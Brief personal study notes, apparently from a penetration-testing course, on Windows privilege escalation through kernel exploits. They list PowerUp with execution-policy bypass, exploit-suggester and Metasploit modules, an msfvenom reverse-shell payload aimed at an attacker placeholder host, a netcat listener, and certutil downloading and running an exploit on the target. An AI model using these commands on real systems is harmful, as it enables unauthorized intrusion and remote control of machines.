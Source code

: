 in shell:
```powershell
powershell -ep bypass
powerup.ps1
```

> if powershell and winpeas are not avaiable to use

in Kali: 
```powershell
# https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
pip install xlrd --upgrade

# 'if u dont have pip' > curl http://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py
./windows-exploit-suggester.py --database <db.xls> --systeminfo <sysinfo file>
```


# Escalation Path: Kernel Exploits

Windows Kernel Exploits: https://github.com/SecWiki/windows-kernel-exploits


## Kernel
- Is a computer program that controls everything in the system
- Facilitates interactions between hardware and software components 
- A translator

### In metasploit
```
after run suggester / winpeas / powerup, we have an idea which kernel exploits we can try
background the session
so we search in metasploit example: exploit/windows/local/ms10_015_kitrap0d
set options > run
```

### Manually
```bash
msfvenom -p windows/shell_reverse_tcp lhost=<kali ip> lport=<port> -f aspx > shell.aspx
nc -lvnp <port> = set a listener	

# MS10-059 Exploit - https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
```

> transfer the exploit to the windows target machine

in kali:
```python
python3 -m http.server 80 
```

in windows:
```powershell
cd c:\Windows\Temp
certutil -urlcache -f http://<kali ip>/<file> <output name>
exploit.exe <kali ip> <port>
```
